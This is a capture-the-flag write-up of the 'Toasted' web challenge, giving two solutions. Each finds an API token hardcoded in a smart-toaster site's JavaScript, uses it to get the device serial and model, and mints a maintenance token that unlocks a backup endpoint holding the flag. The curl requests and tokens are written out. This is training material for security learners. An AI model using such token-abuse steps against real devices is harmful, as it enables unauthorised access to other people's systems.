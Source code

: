 # Toasted

## Question

> I wanted to be able to make toast from bed, so I bought an internet connected toaster. They haven't added ifttt support yet, but luckily it has a somewhat well documented web API :)  
> Connect to this challenge at pwn.osucyber.club:13372

## Solution (by WCSC)

For this challenge, you'll want to be familiar with GET and POST requests in HTTP.

When you visit the url, you'll find a website that controls a smart toaster. The website provides an API help, which has 6 methods available. Reading through them, two stuck out:

-  POST /api/generate_maintenance_token
-  GET /api/download_backup (maintenance token required)
   Maintenance usually has access to more functionality, so the backup seems to be where we will find the flag. We will need to generate a maintenance token. To do so, I mad a POST request to http://pwn.osucyber.club:13372/api/generate_maintenance_token. This endpoint complained that I need an API token. Drat.

Looking through the website, the http://pwn.osucyber.club:13372/quick-toast page makes a request to the API. Taking a look at the Networks Developer Tools in Chrome, the API token can be found hardcoded in the Javascript: gSNEaD868LJd1DldhZUglykfGwu_NbcLu9d1wmT5luLFTfHV2eVQYI8EupRMi71Cz6qydOc0kgXnGcDoPuUkkA

I now repeated the POST request for the maintenance token, but now we need a serial number. Making a GET request (http://pwn.osucyber.club:13372/api/status?token=gSNEaD868LJd1DldhZUglykfGwu_NbcLu9d1wmT5luLFTfHV2eVQYI8EupRMi71Cz6qydOc0kgXnGcDoPuUkkA) to the status page, I found the following:

{ "status": 0, "data": { "model": "Hot Stuff 1337", "num_toasted": "34", "serial": "60AKGPCIAX1AYIVN36M7MSIOXCRQ17ET2U17VUSS", "time": "2020-10-24T00:01:23.119Z" } }

Great, we have now the serial number now! I repeated the maintenance request again with both the token and serial, but this unfortunately still failed. I found adding the model number to the request, however, succeeded (the error message seems a bit misleading). This granted the token:

{ "status": 0, "token": "Ck2RtOs2RE1JTBnrOzEyaoC4fl8XfsyeoWtARkoc9ZAXwDAvyIHqMBzpBQhnYJT3ybXlu1BrbIfvVWPIkLpEdw" }

Great! Now just ask for the flag at http://pwn.osucyber.club:13372/api/download_backup?token=Ck2RtOs2RE1JTBnrOzEyaoC4fl8XfsyeoWtARkoc9ZAXwDAvyIHqMBzpBQhnYJT3ybXlu1BrbIfvVWPIkLpEdw and you're good to go!

## Solution (by bricks)

I found a main.js file using the Debugger in Firefox Devtools with the following code:
```
// cart logic
$('#toast-form').submit(function (event) {
    var sec = $("#toast-time").val()
\$.post("/api/toast", {"token": "gSNEaD868LJd1DldhZUglykfGwu_NbcLu9d1wmT5luLFTfHV2eVQYI8EupRMi71Cz6qydOc0kgXnGcDoPuUkkA", "time": sec}).done(function (data) {
if (data.status == 0) {
M.toast({html: data.message})
}
}).fail(function (xhr) {
let data = JSON.parse(xhr.responseText);
M.toast({html: data.error})
})
})
```
Looks like there was a hardcoded token that we could use for the API calls.

I started by trying out every API call, with the token supplied. Eventually, I found that this gave me some interesting information with this call:

$ curl "http://pwn.osucyber.club:13372/api/status?token=${token}"
```
{"status":0,"data":{"model":"Hot Stuff 1337","num_toasted":"279","serial":"60AKGPCIAX1AYIVN36M7MSIOXCRQ17ET2U17VUSS","time":"2020-10-24T04:28:11.762Z"}}
```
Cool, we got a serial number and the number of toasts toasted. Great. After some more poking around, we can see that api/generate_maintenance_token needs the serial number of the toaster. After supplying the serial number, we get a maintenance token: Ck2RtOs2RE1JTBnrOzEyaoC4fl8XfsyeoWtARkoc9ZAXwDAvyIHqMBzpBQhnYJT3ybXlu1BrbIfvVWPIkLpEdw.

Now we can call api/download_backup with this new token:

$ curl "http://pwn.osucyber.club:13372/api/download_backup?token=${mtoken}"
osuctf{dont_buy_an_int3rnet_connected_t0aster}
